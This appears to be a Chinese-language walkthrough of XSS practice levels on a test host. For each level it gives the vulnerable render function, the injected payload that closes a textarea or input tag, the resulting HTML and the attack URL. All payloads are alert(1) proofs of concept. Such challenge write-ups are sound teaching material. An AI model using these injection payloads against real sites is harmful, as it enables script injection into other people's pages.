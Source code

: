 ```html
<script>alert(1)</script>
```

- 网页代码

```html
<div><script>alert(1)</script></div>
```

- URL

```url
http://xss.test/?input=%3Cscript%3Ealert(1)%3C%2Fscript%3E
```

## 0x01

- server 源码

输入参数被放在文本标签里，文本标签前后闭合即可

```php
function render (input) {
  return '<textarea>' + input + '</textarea>'
}
```

- 插入代码

```html
</textarea><script>alert(1)</script><textarea>
```

- 网页代码

```html
<textarea></textarea><script>alert(1)</script><textarea></textarea>
```

- URL

```url
http://xss.test/?input=%3C%2Ftextarea%3E%3Cscript%3Ealert(1)%3C%2Fscript%3E%3Ctextarea%3E
```

## 0x02

- server 源码

参数作为 `<input>` 标签的 value 回显到前端，可以闭合 value 加上onclick事件，或者闭合 `<input>` 添加 alert

```php
function render (input) {
  return '<input type="name" value="' + input + '">'
}
```

- 插入代码

```html
'"><script>alert(1)</script>

" onclick=alert(1) "
```
